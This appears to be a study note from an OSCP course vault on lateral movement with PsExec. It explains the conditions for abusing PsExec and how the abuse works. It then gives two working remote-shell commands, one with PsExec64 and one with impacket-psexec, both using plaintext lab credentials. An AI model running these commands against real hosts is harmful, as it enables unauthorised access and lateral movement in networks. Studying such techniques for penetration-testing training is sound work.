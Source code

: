 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/2-ps-exec/"}
---
```


----------
### Theory:
- Versatile tool part of SysInternals suite
- Intended to replace telnet-like applications
- To abuse for lateral movement:
	- User that authenticates needs to be part of Administrator local group
	- ADMIN$ share available (default)
	- File and Printer Sharing turned on (default)
	- SMB connection through firewall
- Abuse works by:
	- Writing psexesvc.exe into C:\\Windows
	- Creating and spawning service
	- Running requested command as child process of psexesvc.exe

---------
### PsExec Remote Shell:
1. Get PsExec binary to host.
2. Run connection:
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

--------
### PsExec Remote Shell with Impacket:
```
sudo /usr/bin/impacket-psexec joe:Flowers1@172.16.189.11
```